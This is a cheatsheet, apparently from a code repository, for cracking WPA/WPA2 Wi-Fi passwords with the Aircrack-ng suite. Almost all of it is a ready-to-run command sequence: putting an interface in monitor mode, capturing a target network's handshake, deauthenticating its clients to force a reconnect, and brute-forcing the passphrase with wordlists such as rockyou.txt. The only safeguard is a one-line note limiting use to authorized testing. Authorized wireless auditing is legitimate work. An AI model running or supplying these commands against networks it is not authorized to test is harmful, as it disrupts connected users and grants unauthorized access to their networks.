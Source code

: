 This cheatsheet includes essential commands for wireless network auditing and WPA/WPA2 password cracking using the Aircrack-ng suite.

> ⚠️ For educational and authorized penetration testing only.

bash
# Step 1: Enable Monitor Mode
sudo airmon-ng                       # List available wireless interfaces
sudo airmon-ng start wlan0           # Start monitor mode on wlan0
sudo airmon-ng stop wlan0mon         # Stop monitor mode (return to managed mode)

# Step 2: Discover Wi-Fi Networks
sudo airodump-ng wlan0mon                                 # List all nearby Wi-Fi networks
sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon  # Capture handshake from specific network

# Step 3: Deauthenticate Clients to Capture Handshake
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon                 # Send 5 deauthentication packets

# Step 4: Crack WPA/WPA2 Password
aircrack-ng -w wordlist.txt -b <BSSID> handshake.cap      # Use wordlist to crack captured handshake

# Additional Aircrack-ng Commands
aircrack-ng --help            # Full help menu
aircrack-ng -u                # Processor/SIMD information
aircrack-ng -S                # Benchmark speed
aircrack-ng --simd-list       # List supported SIMD types
aircrack-ng -J file.hccap     # Convert capture to Hashcat format
aircrack-ng -E file.ewsa      # Generate Elcomsoft project file
aircrack-ng -C <macs>         # Merge multiple APs into one virtual AP

# Tools from Aircrack-ng Suite
airmon-ng         # Manage monitor mode
airodump-ng       # Scan and log networks
aireplay-ng       # Inject packets (e.g., deauth attacks)
aircrack-ng       # Crack passwords
airolib-ng        # Manage network/password databases
packetforge-ng    # Create custom packets for injection

# Example: Full Handshake Capture and Crack
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
sudo aireplay-ng -0 10 -a <BSSID> wlan0mon
aircrack-ng -w rockyou.txt -b <BSSID> capture.cap

aircrack-ng -w wordlist.txt -b <BSSID> capture.cap

